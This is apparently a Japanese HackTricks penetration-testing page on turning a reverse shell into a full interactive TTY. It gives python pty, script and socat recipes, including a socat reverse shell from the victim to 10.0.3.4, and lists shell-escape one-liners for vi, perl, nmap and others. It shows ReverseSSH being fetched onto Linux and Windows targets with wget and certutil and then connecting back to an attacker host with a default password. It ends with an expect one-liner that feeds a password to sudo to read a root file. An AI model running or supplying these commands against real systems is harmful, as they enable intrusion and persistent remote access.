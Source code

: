 # フルTTY

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## フルTTY

`SHELL`変数に設定するシェルは、必ず_**/etc/shells**_に**リストされている必要があります**。そうでない場合は、「SHELL変数の値が/etc/shellsファイルに見つかりませんでした。このインシデントは報告されました」と表示されます。また、次のスニペットはbashでのみ動作することに注意してください。zshにいる場合は、`bash`を実行してbashに切り替えてからシェルを取得してください。

#### Python

{% code overflow="wrap" %}
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

{% hint style="info" %}
**`stty -a`**を実行することで、**行**と**列**の**数**を取得できます。
{% endhint %}

#### スクリプト

{% code overflow="wrap" %}
```bash
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}

#### socat
```bash
#Listener:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
### **シェルを生成する**

* `python -c 'import pty; pty.spawn("/bin/sh")'`
* `echo os.system('/bin/bash')`
* `/bin/sh -i`
* `script -qc /bin/bash /dev/null`
* `perl -e 'exec "/bin/sh";'`
* perl: `exec "/bin/sh";`
* ruby: `exec "/bin/sh"`
* lua: `os.execute('/bin/sh')`
* IRB: `exec "/bin/sh"`
* vi: `:!bash`
* vi: `:set shell=/bin/bash:shell`
* nmap: `!sh`

## ReverseSSH

**インタラクティブシェルアクセス**、および**ファイル転送**と**ポートフォワーディング**の便利な方法は、ターゲットに静的リンクされたsshサーバー[ReverseSSH](https://github.com/Fahrj/reverse-ssh)を配置することです。

以下は、upx圧縮バイナリを使用した`x86`の例です。他のバイナリについては、[リリースページ](https://github.com/Fahrj/reverse-ssh/releases/latest/)を確認してください。

1. sshポートフォワーディングリクエストをキャッチするためにローカルで準備します：

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -v -l -p 4444
```
{% endcode %}

* (2a) Linuxターゲット:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
wget -q https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86 -O /dev/shm/reverse-ssh && chmod +x /dev/shm/reverse-ssh

/dev/shm/reverse-ssh -p 4444 kali@10.0.0.2
```
{% endcode %}

* (2b) Windows 10 ターゲット（以前のバージョンについては、[プロジェクトのリードミー](https://github.com/Fahrj/reverse-ssh#features)を確認してください）:

{% code overflow="wrap" %}
```bash
# Drop it via your preferred way, e.g.
certutil.exe -f -urlcache https://github.com/Fahrj/reverse-ssh/releases/latest/download/upx_reverse-sshx86.exe reverse-ssh.exe

reverse-ssh.exe -p 4444 kali@10.0.0.2
```
{% endcode %}

* ReverseSSHポートフォワーディングリクエストが成功した場合、`reverse-ssh(.exe)`を実行しているユーザーのコンテキストで、デフォルトのパスワード`letmeinbrudipls`を使用してログインできるはずです：
```bash
# Interactive shell access
ssh -p 8888 127.0.0.1

# Bidirectional file transfer
sftp -P 8888 127.0.0.1
```
## ペネロペ

Penelope (https://github.com/brightio/penelope) は、Linux リバースシェルを自動的に TTY にアップグレードし、ターミナルサイズを処理し、すべてをログに記録し、さらに多くの機能を提供します。また、Windows シェルのための readline サポートも提供します。

![penelope](https://github.com/user-attachments/assets/27ab4b3a-780c-4c07-a855-fd80a194c01e)

## TTYなし

何らかの理由で完全な TTY を取得できない場合でも、**ユーザー入力を期待するプログラムと対話することができます**。次の例では、パスワードが `sudo` に渡されてファイルを読み取ります：
```bash
expect -c 'spawn sudo -S cat "/root/root.txt";expect "*password*";send "<THE_PASSWORD_OF_THE_USER>";send "\r\n";interact'
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
